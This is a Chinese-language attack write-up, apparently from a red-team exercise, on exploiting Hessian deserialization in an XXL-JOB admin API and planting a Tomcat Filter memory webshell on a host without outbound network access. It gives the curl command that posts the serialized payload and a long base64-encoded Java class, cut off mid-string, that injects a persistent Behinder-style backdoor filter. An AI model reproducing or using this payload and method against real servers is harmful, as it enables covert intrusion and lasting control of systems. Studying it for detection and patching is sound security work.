



# 奇安信攻防社区-【Web实战】 记一次曲折的不出网XXL-JOB API Hessian反序列化到Getshell

### 【Web实战】 记一次曲折的不出网XXL-JOB API Hessian反序列化到Getshell

打一次较为曲折的反序列化

# 前言

我们经常在CTF里见到Java反序列化的题，而如何从CTF过渡到实战中是一个坎儿，今天就说一次在hw中遇到的不出网Hessian反序列化问题。

# 一、启

  
最初就是打某护网发现一个XXL-JOB任务调度器，尝试了几番爆破无果后本来打算放弃了的，但是想到之前XXL-JOB爆出过一个Hessian反序列化的漏洞，就试探性的访问了一下`/api`接口，结果不出所料

  
（图中很多很奇怪的Filter名称不需要在意，这是我打的内存马的名字，我们一步步道来)

# 二、承

看到这一步我就豁然开朗，试探性的用了网上所说的Gadget去打了一波JNDI注入的链子，过程如下

起一个恶意的JNDI服务先,然后用marshallsec去构造gadgets

  
然后发送payload

```php
curl -XPOST -H "Content-Type: x-application/hessian" --data-binary @test.ser http://xxx:8080/xxl-job-admin/api
```

  
这里不用vps发包是因为我vps被ban了- -  
可以看到是触发了lookup的，但是不出网，那怎么办呢？办法就只有一个了，那就是手打内存马

# 三、转

那我们就需要对源码进行分析，首先先去官网把漏洞版本的xxl-job下载下来看一下。

  
整体是基于springboot服务的，所以打内存马的话，我们只需要挑选一个Tomcat的Filter内存马即可，这里有2个问题

-   第一个就是为什么不打springboot内存马

这是因为Springboot的interceptor本质上就是Filter，但是从优先级来看Filter是更高的，而在xxl-job实际上是有几个默认的interceptor的，所以优先级不够。


-   为什么只能是Filter内存马

鉴于上面说的默认interceptor，xxl-job内置有登录鉴权的interceptor，所以注入controller型的内存马，会因为优先级的问题而失效  
那么我们最终就选择使用JMG工具生成一个冰蝎的Tomcat Filter内存马，JMG这款工具生成的内存马兼容性很强，比较推荐使用  
[https://github.com/pen4uin/java-memshell-generator-release](https://github.com/pen4uin/java-memshell-generator-release)

  
这样我们就得到了内存马的base64字节码了。我们怎么进行测试呢，github有maven项目源码，我们在help路由处对这个字节码进行加载。

  
咱们访问一下help路由


```php
org.springframework.cglib.core.ReflectUtils.defineClass("org.apache.commons.aq.SerializationUtil",org.springframework.util.Base64Utils.decodeFromString("yv66vgAAADEBsgEAJ29yZy9hcGFjaGUvY29tbW9ucy9hcS9TZXJpYWxpemF0aW9uVXRpbAcAAQEAEGphdmEvbGFuZy9PYmplY3QHAAMBAA1nZXRVcmxQYXR0ZXJuAQAUKClMamF2YS9sYW5nL1N0cmluZzsBAARDb2RlAQACLyoIAAgBAAxnZXRDbGFzc05hbWUBAC9vcmcuYXBhY2hlLmh0dHAuY2xpZW50LlNlcnZsZXRSZXF1ZXN0TWN0Z0ZpbHRlcggACwEAD2dldEJhc2U2NFN0cmluZwEACkV4Y2VwdGlvbnMBABNqYXZhL2lvL0lPRXhjZXB0aW9uBwAPAQAQamF2YS9sYW5nL1N0cmluZwcAEQEKPEg0c0lBQUFBQUFBQUFLVlhDWHNUMXhVOXo1STFzaVJDRU1HeElBa2tLY0dTakdVTVRvd01CTnN4d1lsdFVpczFkWnd1NDlISUVnaEphRVlPY3BlazZiNm5UYmQwMzBsMzBnWVpCd0owQ3cxTm0yN3V2MG0vbmpjanlaSXNHL3IxKzZ3Mzg5Njc3OXg3ejEzZStQcC9YcmtNWUEvK0xSREo1dWNpYWs3Vmtub2thWnE1aUpaTzZSa3pFdFB6ODJuZG5OUlBGM1RESE5mTXVTT3B0S25uRlFpQkxTZlVlVFdTVmpOemtlRzBhaGhqV1RVdXR4d0N0OG10TXhIRFBoNnBIR29WRUhNODJEa3pGQnhyT0QwZzRCek94bldCaldPcGpENVJPRFdyNXg5WFo5TmM4WTlsTlRVOXBlWlRjbDVlZEpySmxDR3daK3gvdEoyS3hLeEF5OHlRZ0RldUo2ak1Na0RnZHRvMU9ycmFNaDl1eFNZUG5QQUx1QTZrTWluemtJQ2pNempsdzIzWUlqZmFCYloyTnA2eitSZ0lUbEdoUnZRMTlpVklod1RaSnVDT1oyMGpCV1pzdkJVUzYvMFpXR3ZYeUdVemh0NjRiYU1PSjlWVXhqSm84NG90STJjMFBXZW1zaGtGMndVVVF6Y01UZ1IyTkVCWTNCN2xFTE1seUtNak8zdEN4c3NDSzVpcGRHUmN6WEY5Uy9tb2xpL216R3hrT0pWTDJyenJsYjBHMWR5N3hhanpUK0N1OWYyblhxUGVaNEh0TnlDRkFVK3NFQ0d3YlIyV1NFVytZc3F1dGFsb3NNbWRyeHJUR0wvVmg2cFc3YndwZUFXOUF2ZmRIS2lDZlFJYllxYXFuV1JJeWhYalNlb3k0eWJVVTFaTnJjUWhadVpUbVRsbTRnUG9iME1MOWd1MHplbm1VVXVjT2p0WHl3YWJIUi9BQVMvMjRpQjV0bFZOcWVtQzdzT0ROdXhoZ1ZzYlR5bGdHYnExYk1ZazZhekJiWFZsbEZUek1lbDhSdE1IZ2svNDhCQkdQQmpHRWZwQysyS1ZWTDJuTTNpalpQWGhLRWFsY1k4SWJGckoxNk9xa1NSQkNzWThHRWU3Rzkya3JTNmRGVHpHUk04Vm1BYjl0YllkbXoyaGErVXlyRnNKcmw3eVlSSXhMOTZPeDkzb2NlTnVWa0xCalhleWgrWFlCM3g0d3VabmhrbS92aHNLM2tXMmFJeEZMQk96U1dTYVdNUkc5UjY4MTR0M1E2VXZneU14TjdSeUQyZ29VZ1ZFOVpMYjBZeGhxcVJkSUxobTlCc0wzSWM1SkQxSUlNVlNyQk13Y3JyR2F0VHl1dm1vWG94eHB1QWtQYUdpb2FLcE0rN096dURNa0ErbmtKRUJ6dHJOdUlsaXErZWU5aUFOSnFaVDltSXBPbXBMR3JwV3lLZk1Zb1JLTEZFVEJXblBmRjNpMmF3b09HTWJVRzcrbXp1Yk5mNEZ2TStESXQ3UGJ0T3dxZUNEYkZxVjgzWXZGd2lzUnFtMitXZndJUStleHJNZWhwcTkvbzcxMnB1Q2o5bzFPRm11d2EwVjRGUTJNbFJJSlBTOEhyZjNpUHh4Zk1LTGorR1RBdTNOWlJSODJ1cE5hbHplcmJ5Zk81dlc3MmZ4T1E4K2c4L1RzWGgyU0RYMCsvYzlwR3ZXcGR6ZUxBdGt4TDZBTDBxSG5tZS9sSmRYUmszemtwUVh2Tno4TXI0aStmK3FEd3JjVXV3RlpsZEdmMm9sdStvdHFkYkxOL0JOeWRXM2lFVkMxTFFodnhxYVpEWjd3bmZ3WFJtaTc1SDhOYnU1Z2g4SUhQNy9ibFNaVDNmaVIxNzhFRDltLzZuZVhVYmxOaVhybzhkcWJ0T2ZyQ3JuTW1TTnpNOEVXclcwdXJEQXJ0VGtpMGlKVy9UbjY5dDEyWG5tLzd5YTcyTkZHeVlsMm8xQ3B2dFV5dEM2aHdaakk1WEk1ZDM0RFhFUzJYTGIzM21EWGw1Si9QTW95UUFzQ3Zoc0creUVjbVBKenN0eDNVeG00MVZTNi9CbVZ1SFZhc2pyaVRUTmo5Z0lWSFVSbDZTcVZ3VTYxcEpTY0lXWmtNck1aMC9TaC8xTk1tSG1KaHZ4Yi9FN0Q2N2k5d28ybHB0Q3QrejAzWGEydS9HYWZiVlV5ZnNUOWRvRXVIR2RiYTB4aDhwSmxzMGtVblBXbDVVdlViUENLbDlQM2dvd2c1Y3QwaGJ0Z1ZtOWQwOWZUMjkvejc3OVBWckNqYjl4ZjFLWFpVeEQva0ZESm9zTGlRWFZqWC9oYnRhU0UxeUNneVB2RDM3SkMzbDlXODhIclNjLzBtWFpjV3pqN0NEbFcvaHNDNFVkNGN1TDJIeU9reFo0T0xvb0F0d09MOGQyV3dnK2JBQ3N0MXV3a2Z0Q2Z1cVdvVVlvWTUwSUxmTG4vL3Q1UEJueS8vTThvaUgvOG5rTXZsUUY5bGhnV3dtNnpRTDNsUlhaNEJLeW93ejVHQ1dsYkVjb3ZJZzdib3g1RjFHMjF4amNVVFc0QXdGcWxBYmZTYWtXaVM0dTBVV3BaVGw4Rlh1anpxNnI2SXUyQnB5aGx4RmR3cUVXdklZWGEyWjhHU3poNFJmd3ZCUmZ3cU1DVWRkRmpFOHZZaUtxQkJUL3NmQVMzdUhBY2I1T0JWcXI3OGNEcnZLN3l6OU5rQ2VYTU91QVAzNEJKNkx1Z0x2MUl0TFdjZ2s1ZjN3UlJnbFBYVVRMZEtpRUQ1VHc0VVY4Sk9BT0VmbFRBaVU4VjhLWFN2aGFDVjh2NGRzQnBZVHZIejhMNys1dzF4TE9PbkFXRzZLdXl1UWx1dXJETlZ6SERpYURwT2dSK0RuZVM2ZmZ4cDFkaUtBVFVRUjVyNFl3Z1REVHBZdE51UnNHZHhiUWcrZjRUK0FsOU9JS1A0K3VNWW11b3c5djRINm1XYjlGY1lLb1VUekxwTHVIbU1Oc3R2Y1NXZUhaSVpLOWt5bjJCbi8zVVpOTGtsd054VEwxQnEyUUwxTnoyQXJVTW5YdnBwMHV2RWtMSWt4S0gxNm5EWHZRU28zQUpqamZ3aFVGZXhYMEtVTUtkclRoUlN0RlcvQlQvSnhndkcvc3FPSXRycmJ5V2ZTL2ZBRVh4cnY4cnpoZnhkUFREdjl3cklUTFhTU084K0swSTh6cEg2N2lqOVcvYytQK2F6d3hzZHYvdW9NbktDejRMRklxNmd3NEdRNy9uMnVSQXM2MWNDemZwTzBWNXJkYURCemdlSkNyaDhpcExNWERHTU9neGVRaDdyakl4Qy93U3pyUnoxWDU1dUQrYnZ3SzU4aEdMeDVtUkhkWlhCV3JUQmJ4YTBvTGl5Rlc2Mm55WXRFaVc4QU8va3hHd0NhbHp5b1U1dnhLeGRqbGZhU21Xa1FWV09BditDdkhDcGhrK00xcW9ZY3RpU1pnb3pYbFhBWDdMNUZEanhsUkVBQUEIABMBAAY8aW5pdD4BABUoTGphdmEvbGFuZy9TdHJpbmc7KVYMABUAFgoAEgAXAQADKClWAQATamF2YS9sYW5nL0V4Y2VwdGlvbgcAGgEAD0xpbmVOdW1iZXJUYWJsZQEAEkxvY2FsVmFyaWFibGVUYWJsZQEABmZpbHRlcgEAEkxqYXZhL2xhbmcvT2JqZWN0OwEAB2NvbnRleHQBAAhjb250ZXh0cwEAEExqYXZhL3V0aWwvTGlzdDsBAAR0aGlzAQApTG9yZy9hcGFjaGUvY29tbW9ucy9hcS9TZXJpYWxpemF0aW9uVXRpbDsBABZMb2NhbFZhcmlhYmxlVHlwZVRhYmxlAQAkTGphdmEvdXRpbC9MaXN0PExqYXZhL2xhbmcvT2JqZWN0Oz47AQAOamF2YS91dGlsL0xpc3QHACcBABJqYXZhL3V0aWwvSXRlcmF0b3IHACkBAA1TdGFja01hcFRhYmxlDAAVABkKAAQALAEACmdldENvbnRleHQBABIoKUxqYXZhL3V0aWwvTGlzdDsMAC4ALwoAAgAwAQAIaXRlcmF0b3IBABYoKUxqYXZhL3V0aWwvSXRlcmF0b3I7DAAyADMLACgANAEAB2hhc05leHQBAAMoKVoMADYANwsAKgA4AQAEbmV4dAEAFCgpTGphdmEvbGFuZy9PYmplY3Q7DAA6ADsLACoAPAEACWdldEZpbHRlcgEAJihMamF2YS9sYW5nL09iamVjdDspTGphdmEvbGFuZy9PYmplY3Q7DAA+AD8KAAIAQAEACWFkZEZpbHRlcgEAJyhMamF2YS9sYW5nL09iamVjdDtMamF2YS9sYW5nL09iamVjdDspVgwAQgBDCgACAEQBAARrZXkxAQAIY2hpbGRyZW4BABNMamF2YS91dGlsL0hhc2hNYXA7AQADa2V5AQALY2hpbGRyZW5NYXABAAZ0aHJlYWQBABJMamF2YS9sYW5nL1RocmVhZDsBAAFlAQAVTGphdmEvbGFuZy9FeGNlcHRpb247AQAHdGhyZWFkcwEAE1tMamF2YS9sYW5nL1RocmVhZDsHAFABABBqYXZhL2xhbmcvVGhyZWFkBwBSAQARamF2YS91dGlsL0hhc2hNYXAHAFQBABNqYXZhL3V0aWwvQXJyYXlMaXN0BwBWCgBXACwBAApnZXRUaHJlYWRzCABZAQAMaW52b2tlTWV0aG9kAQA4KExqYXZhL2xhbmcvT2JqZWN0O0xqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL09iamVjdDsMAFsAXAoAAgBdAQAHZ2V0TmFtZQwAXwAGCgBTAGABABxDb250YWluZXJCYWNrZ3JvdW5kUHJvY2Vzc29yCABiAQAIY29udGFpbnMBABsoTGphdmEvbGFuZy9DaGFyU2VxdWVuY2U7KVoMAGQAZQoAEgBmAQAGdGFyZ2V0CABoAQAFZ2V0RlYMAGoAXAoAAgBrAQAGdGhpcyQwCABtCABHAQAGa2V5U2V0AQARKClMamF2YS91dGlsL1NldDsMAHAAcQoAVQByAQANamF2YS91dGlsL1NldAcAdAsAdQA0AQADZ2V0DAB3AD8KAFUAeAEACGdldENsYXNzAQATKClMamF2YS9sYW5nL0NsYXNzOwwAegB7CgAEAHwBAA9qYXZhL2xhbmcvQ2xhc3MHAH4KAH8AYAEAD1N0YW5kYXJkQ29udGV4dAgAgQEAA2FkZAEAFShMamF2YS9sYW5nL09iamVjdDspWgwAgwCECwAoAIUBABVUb21jYXRFbWJlZGRlZENvbnRleHQIAIcBABVnZXRDb250ZXh0Q2xhc3NMb2FkZXIBABkoKUxqYXZhL2xhbmcvQ2xhc3NMb2FkZXI7DACJAIoKAFMAiwEACHRvU3RyaW5nDACNAAYKAH8AjgEAGVBhcmFsbGVsV2ViYXBwQ2xhc3NMb2FkZXIIAJABAB9Ub21jYXRFbWJlZGRlZFdlYmFwcENsYXNzTG9hZGVyCACSAQAJcmVzb3VyY2VzCACUCAAgAQAaamF2YS9sYW5nL1J1bnRpbWVFeGNlcHRpb24HAJcBABgoTGphdmEvbGFuZy9UaHJvd2FibGU7KVYMABUAmQoAmACaAQAgamF2YS9sYW5nL0lsbGVnYWxBY2Nlc3NFeGNlcHRpb24HAJwBAB9qYXZhL2xhbmcvTm9TdWNoTWV0aG9kRXhjZXB0aW9uBwCeAQAramF2YS9sYW5nL3JlZmxlY3QvSW52b2NhdGlvblRhcmdldEV4Y2VwdGlvbgcAoAEACVNpZ25hdHVyZQEAJigpTGphdmEvdXRpbC9MaXN0PExqYXZhL2xhbmcvT2JqZWN0Oz47AQATamF2YS9sYW5nL1Rocm93YWJsZQcApAEACWNsYXp6Qnl0ZQEAAltCAQALZGVmaW5lQ2xhc3MBABpMamF2YS9sYW5nL3JlZmxlY3QvTWV0aG9kOwEABWNsYXp6AQARTGphdmEvbGFuZy9DbGFzczsBAAtjbGFzc0xvYWRlcgEAF0xqYXZhL2xhbmcvQ2xhc3NMb2FkZXI7AQAVamF2YS9sYW5nL0NsYXNzTG9hZGVyBwCuAQANY3VycmVudFRocmVhZAEAFCgpTGphdmEvbGFuZy9UaHJlYWQ7DACwALEKAFMAsgEADmdldENsYXNzTG9hZGVyDAC0AIoKAH8AtQwACgAGCgACALcBAAlsb2FkQ2xhc3MBACUoTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvQ2xhc3M7DAC5ALoKAK8AuwwADQAGCgACAL0BAAxkZWNvZGVCYXNlNjQBABYoTGphdmEvbGFuZy9TdHJpbmc7KVtCDAC/AMAKAAIAwQEADmd6aXBEZWNvbXByZXNzAQAGKFtCKVtCDADDAMQKAAIAxQgAqAcApwEAEWphdmEvbGFuZy9JbnRlZ2VyBwDJAQAEVFlQRQwAywCrCQDKAMwBABFnZXREZWNsYXJlZE1ldGhvZAEAQChMamF2YS9sYW5nL1N0cmluZztbTGphdmEvbGFuZy9DbGFzczspTGphdmEvbGFuZy9yZWZsZWN0L01ldGhvZDsMAM4AzwoAfwDQAQAYamF2YS9sYW5nL3JlZmxlY3QvTWV0aG9kBwDSAQANc2V0QWNjZXNzaWJsZQEABChaKVYMANQA1QoA0wDWAQAHdmFsdWVPZgEAFihJKUxqYXZhL2xhbmcvSW50ZWdlcjsMANgA2QoAygDaAQAGaW52b2tlAQA5KExqYXZhL2xhbmcvT2JqZWN0O1tMamF2YS9sYW5nL09iamVjdDspTGphdmEvbGFuZy9PYmplY3Q7DADcAN0KANMA3gEAC25ld0luc3RhbmNlDADgADsKAH8A4QEADWdldEZpbHRlck5hbWUBACYoTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvU3RyaW5nOwEADGxhc3REb3RJbmRleAEAAUkBAAljbGFzc05hbWUBABJMamF2YS9sYW5nL1N0cmluZzsBAAEuCADpAQALbGFzdEluZGV4T2YBABUoTGphdmEvbGFuZy9TdHJpbmc7KUkMAOsA7AoAEgDtAQAJc3Vic3RyaW5nAQAVKEkpTGphdmEvbGFuZy9TdHJpbmc7DADvAPAKABIA8QEACWZpbHRlckRlZgEACWZpbHRlck1hcAEAAmUyAQAMY29uc3RydWN0b3JzAQAgW0xqYXZhL2xhbmcvcmVmbGVjdC9Db25zdHJ1Y3RvcjsBAAxmaWx0ZXJDb25maWcBAA1maWx0ZXJDb25maWdzAQAPTGphdmEvdXRpbC9NYXA7AQAOY2F0YWxpbmFMb2FkZXIBAA9maWx0ZXJDbGFzc05hbWUBAApmaWx0ZXJOYW1lAQAjW0xqYXZhL2xhbmcvcmVmbGVjdC9Db25zdHJ1Y3RvcjwqPjsHAPcBABFnZXRDYXRhbGluYUxvYWRlcgwBAACKCgACAQEMAOMA5AoAAgEDAQANZmluZEZpbHRlckRlZggBBQEAXShMamF2YS9sYW5nL09iamVjdDtMamF2YS9sYW5nL1N0cmluZztbTGphdmEvbGFuZy9DbGFzcztbTGphdmEvbGFuZy9PYmplY3Q7KUxqYXZhL2xhbmcvT2JqZWN0OwwAWwEHCgACAQgBAC9vcmcuYXBhY2hlLnRvbWNhdC51dGlsLmRlc2NyaXB0b3Iud2ViLkZpbHRlckRlZggBCgEAB2Zvck5hbWUMAQwAugoAfwENAQAvb3JnLmFwYWNoZS50b21jYXQudXRpbC5kZXNjcmlwdG9yLndlYi5GaWx0ZXJNYXAIAQ8BACRvcmcuYXBhY2hlLmNhdGFsaW5hLmRlcGxveS5GaWx0ZXJEZWYIAREBACRvcmcuYXBhY2hlLmNhdGFsaW5hLmRlcGxveS5GaWx0ZXJNYXAIARMBAD0oTGphdmEvbGFuZy9TdHJpbmc7WkxqYXZhL2xhbmcvQ2xhc3NMb2FkZXI7KUxqYXZhL2xhbmcvQ2xhc3M7DAEMARUKAH8BFgEADXNldEZpbHRlck5hbWUIARgBAA5zZXRGaWx0ZXJDbGFzcwgBGgEADGFkZEZpbHRlckRlZggBHAEADXNldERpc3BhdGNoZXIIAR4BAAdSRVFVRVNUCAEgAQANYWRkVVJMUGF0dGVybggBIgwABQAGCgACASQBADBvcmcuYXBhY2hlLmNhdGFsaW5hLmNvcmUuQXBwbGljYXRpb25GaWx0ZXJDb25maWcIASYBABdnZXREZWNsYXJlZENvbnN0cnVjdG9ycwEAIigpW0xqYXZhL2xhbmcvcmVmbGVjdC9Db25zdHJ1Y3RvcjsMASgBKQoAfwEqAQANc2V0VVJMUGF0dGVybggBLAEAEmFkZEZpbHRlck1hcEJlZm9yZQgBLgEADGFkZEZpbHRlck1hcAgBMAEAHWphdmEvbGFuZy9yZWZsZWN0L0NvbnN0cnVjdG9yBwEyCgEzANYBACcoW0xqYXZhL2xhbmcvT2JqZWN0OylMamF2YS9sYW5nL09iamVjdDsMAOABNQoBMwE2CAD5AQANamF2YS91dGlsL01hcAcBOQEAA3B1dAEAOChMamF2YS9sYW5nL09iamVjdDtMamF2YS9sYW5nL09iamVjdDspTGphdmEvbGFuZy9PYmplY3Q7DAE7ATwLAToBPQEAD3ByaW50U3RhY2tUcmFjZQwBPwAZCgAbAUABACBqYXZhL2xhbmcvQ2xhc3NOb3RGb3VuZEV4Y2VwdGlvbgcBQgEAIGphdmEvbGFuZy9JbnN0YW50aWF0aW9uRXhjZXB0aW9uBwFEAQABaQEADGRlY29kZXJDbGFzcwEAB2RlY29kZXIBAAdpZ25vcmVkAQAJYmFzZTY0U3RyAQAUTGphdmEvbGFuZy9DbGFzczwqPjsBABZzdW4ubWlzYy5CQVNFNjREZWNvZGVyCAFMAQAMZGVjb2RlQnVmZmVyCAFOAQAJZ2V0TWV0aG9kDAFQAM8KAH8BUQEAEGphdmEudXRpbC5CYXNlNjQIAVMBAApnZXREZWNvZGVyCAFVAQAGZGVjb2RlCAFXAQAOY29tcHJlc3NlZERhdGEBAANvdXQBAB9MamF2YS9pby9CeXRlQXJyYXlPdXRwdXRTdHJlYW07AQACaW4BAB5MamF2YS9pby9CeXRlQXJyYXlJbnB1dFN0cmVhbTsBAAZ1bmd6aXABAB9MamF2YS91dGlsL3ppcC9HWklQSW5wdXRTdHJlYW07AQAGYnVmZmVyAQABbgEAHWphdmEvaW8vQnl0ZUFycmF5T3V0cHV0U3RyZWFtBwFiAQAcamF2YS9pby9CeXRlQXJyYXlJbnB1dFN0cmVhbQcBZAEAHWphdmEvdXRpbC96aXAvR1pJUElucHV0U3RyZWFtBwFmCgFjACwBAAUoW0IpVgwAFQFpCgFlAWoBABgoTGphdmEvaW8vSW5wdXRTdHJlYW07KVYMABUBbAoBZwFtAQAEcmVhZAEABShbQilJDAFvAXAKAWcBcQEABXdyaXRlAQAHKFtCSUkpVgwBcwF0CgFjAXUBAAt0b0J5dGVBcnJheQEABCgpW0IMAXcBeAoBYwF5AQADb2JqAQAJZmllbGROYW1lAQAFZmllbGQBABlMamF2YS9sYW5nL3JlZmxlY3QvRmllbGQ7AQAEZ2V0RgEAPyhMamF2YS9sYW5nL09iamVjdDtMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9yZWZsZWN0L0ZpZWxkOwwBfwGACgACAYEBABdqYXZhL2xhbmcvcmVmbGVjdC9GaWVsZAcBgwoBhADWCgGEAHgBAB5qYXZhL2xhbmcvTm9TdWNoRmllbGRFeGNlcHRpb24HAYcBACBMamF2YS9sYW5nL05vU3VjaEZpZWxkRXhjZXB0aW9uOwEAEGdldERlY2xhcmVkRmllbGQBAC0oTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvcmVmbGVjdC9GaWVsZDsMAYoBiwoAfwGMAQANZ2V0U3VwZXJjbGFzcwwBjgB7CgB/AY8KAYgAFwEADHRhcmdldE9iamVjdAEACm1ldGhvZE5hbWUBAAdtZXRob2RzAQAbW0xqYXZhL2xhbmcvcmVmbGVjdC9NZXRob2Q7AQAhTGphdmEvbGFuZy9Ob1N1Y2hNZXRob2RFeGNlcHRpb247AQAiTGphdmEvbGFuZy9JbGxlZ2FsQWNjZXNzRXhjZXB0aW9uOwEACnBhcmFtQ2xhenoBABJbTGphdmEvbGFuZy9DbGFzczsBAAVwYXJhbQEAE1tMamF2YS9sYW5nL09iamVjdDsBAAZtZXRob2QBAAl0ZW1wQ2xhc3MHAZUBABJnZXREZWNsYXJlZE1ldGhvZHMBAB0oKVtMamF2YS9sYW5nL3JlZmxlY3QvTWV0aG9kOwwBnwGgCgB/AaEKANMAYAEABmVxdWFscwwBpACECgASAaUBABFnZXRQYXJhbWV0ZXJUeXBlcwEAFCgpW0xqYXZhL2xhbmcvQ2xhc3M7DAGnAagKANMBqQoAnwAXAQAKZ2V0TWVzc2FnZQwBrAAGCgCdAa0KAJgAFwEACDxjbGluaXQ+CgACACwAIQACAAQAAAAAABAAAQAFAAYAAQAHAAAADwABAAEAAAADEgmwAAAAAAABAAoABgABAAcAAAAQAAEAAQAAAAQTAAywAAAAAAABAA0ABgACAA4AAAAEAAEAEAAHAAAAFwADAAEAAAALuwASWRMAFLcAGLAAAAAAAAEAFQAZAAEABwAAANgAAwAFAAAANiq3AC0qtgAxTCu5ADUBAE0suQA5AQCZABssuQA9AQBOKi23AEE6BCotGQS2AEWn/+KnAARMsQABAAQAMQA0ABsABAAcAAAAJgAJAAAALAAEAC4ACQAvACAAMAAnADEALgAyADEANQA0ADMANQA4AB0AAAAqAAQAJwAHAB4AHwAEACAADgAgAB8AAwAJACgAIQAiAAEAAAA2ACMAJAAAACUAAAAMAAEACQAoACEAJgABACsAAAAaAAT/ABAAAwcAAgcAKAcAKgAA+QAgQgcAGwAAAQAuAC8AAwAHAAAC2AADAA4AAAF5uwBXWbcAWEwSUxJauABewABRwABRTQFOLDoEGQS+NgUDNgYVBhUFogFBGQQVBjI6BxkHtgBhEmO2AGeZALMtxwCvGQcSabgAbBJuuABsEm+4AGzAAFU6CBkItgBzuQB2AQA6CRkJuQA5AQCZAIAZCbkAPQEAOgoZCBkKtgB5Em+4AGzAAFU6CxkLtgBzuQB2AQA6DBkMuQA5AQCZAE0ZDLkAPQEAOg0ZCxkNtgB5Ti3GABottgB9tgCAEoK2AGeZAAsrLbkAhgIAVy3GABottgB9tgCAEoi2AGeZAAsrLbkAhgIAV6f/r6f/fKcAdxkHtgCMxgBvGQe2AIy2AH22AI8SkbYAZ5oAFhkHtgCMtgB9tgCPEpO2AGeZAEkZB7YAjBKVuABsEpa4AGxOLcYAGi22AH22AIASgrYAZ5kACystuQCGAgBXLcYAGi22AH22AIASiLYAZ5kACystuQCGAgBXhAYBp/6+pwAPOgS7AJhZGQS3AJu/K7AAAQAYAWgBawAbAAQAHAAAAHIAHAAAADsACAA8ABYAPQAYAD8AM